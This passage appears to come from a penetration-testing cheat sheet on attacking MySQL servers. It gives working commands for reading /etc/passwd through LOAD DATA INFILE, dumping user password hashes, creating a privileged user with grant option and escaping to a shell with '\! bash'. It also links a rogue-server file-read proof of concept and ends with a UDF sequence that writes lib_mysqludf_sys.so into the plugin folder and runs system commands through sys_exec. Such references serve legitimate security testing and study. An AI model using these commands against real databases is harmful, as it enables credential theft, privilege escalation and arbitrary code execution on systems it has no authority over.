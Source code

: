```bash
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

**Initial PoC:** [**https://github.com/allyshka/Rogue-MySql-Server**](https://github.com/allyshka/Rogue-MySql-Server)  
**In this paper you can see a complete description of the attack and even how to extend it to RCE:** [**https://paper.seebug.org/1113/**](https://paper.seebug.org/1113/)  
**Here you can find an overview of the attack:** [**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

## POST

### Mysql User

It will be very interesting if mysql is running as **root**:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```

### Privilege escalation

How to:

* Current Level of access
  * mysql&gt;`select user();`
  * mysql&gt;`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';`
* Access passwords
  * mysql&gt; `use mysql`
  * mysql&gt; `select user,password from user;`
* Create a new user and grant him privileges
  * mysql&gt;`create user test identified by 'test';`
  * mysql&gt; `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;`
* Break into a shell
  * mysql&gt; `\! cat /etc/passwd`
  * mysql&gt; `\! bash`

### Privilege Escalation via library

You can find **compiled versions** of this **libraries** in sqlmap: `locate lib_mysqludf_sys.so` and `locate lib_mysqludf_sys.dll`Instead of `locate` you can also use `whereis` to search for this libraries inside the host.

#### Linux

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```
